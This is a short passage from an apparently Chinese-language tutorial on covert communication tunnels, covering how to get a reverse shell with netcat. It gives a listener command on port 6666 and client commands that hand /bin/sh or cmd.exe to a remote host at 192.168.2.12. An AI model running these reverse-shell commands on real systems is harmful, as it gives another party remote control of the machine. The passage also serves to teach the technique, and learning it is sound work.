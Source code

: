 （9）获取反向shell

在服务端监听本地6666端口：

```
nc -lvp 6666
```

![](/assets/img/隐藏通信隧道基础知识/39.png)

在客户端连接服务端的6666端口，并反弹shell：

```
linux:
nc 192.168.2.12[服务端ip] 6666 -e /bin/sh
windows:
nc 192.168.2.12[服务端ip] 6666 -e c:\windows\system32\cmd.exe
```
